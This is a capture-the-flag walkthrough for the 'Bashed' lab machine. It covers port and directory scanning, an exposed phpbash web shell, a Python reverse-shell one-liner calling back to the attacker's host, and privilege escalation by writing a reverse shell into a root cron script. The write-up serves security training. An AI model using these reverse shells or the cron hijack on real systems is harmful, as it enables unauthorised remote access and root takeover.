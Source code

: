 # Bashed

## Initial scan

```sh
nmap -A -T5 -p- 10.10.10.68
```

### Result

```
tarting Nmap 7.80 ( https://nmap.org ) at 2020-04-11 02:15 EDT
Nmap scan report for 10.10.10.68
Host is up (0.22s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 1723/tcp)
HOP RTT       ADDRESS
1   203.62 ms 10.10.14.1
2   204.09 ms 10.10.10.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.12 seconds
```

## Gobuster

Seeing that there's a web server hosted on port 80, let's try using gobuster to look for any subdirectories.

```sh
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

result:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/11 20:41:05 Starting gobuster
===============================================================
/images (Status: 301)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/server-status (Status: 403)
Progress: 161818 / 220561 (73.37%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/04/11 21:41:57 Finished
===============================================================
```

navigating through the dev folder, we find that there's a phpbash script available

## PHP bash

A quick look at the documentation of phpbash tells us which commands are available:
[php-bash github](https://github.com/Arrexel/phpbash)

On our local machine:
```sh
nc -nlvp 4444
```

On the phpbash:
```sh
cd /home/arrexel
cat user.txt

# Getting a reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Priv esc

```sh
sudo -l # shows we can run things as scriptmanager group
sudo -u scriptmanager ls -Al /scripts # here we notice that there's a script that's getting run by a CRON job
sudo -u scriptmanager vi /scripts/test.py
```

Now insert the python code into the machine

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.14",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

And check if it was inserted correctly

```sh
sudo -u scriptmanager cat /scripts/test.py
```

Now just open another netcat session

```sh
nc -nvlp 5555
```

and once the CRON job runs the python file, we are able to get a reverse shell.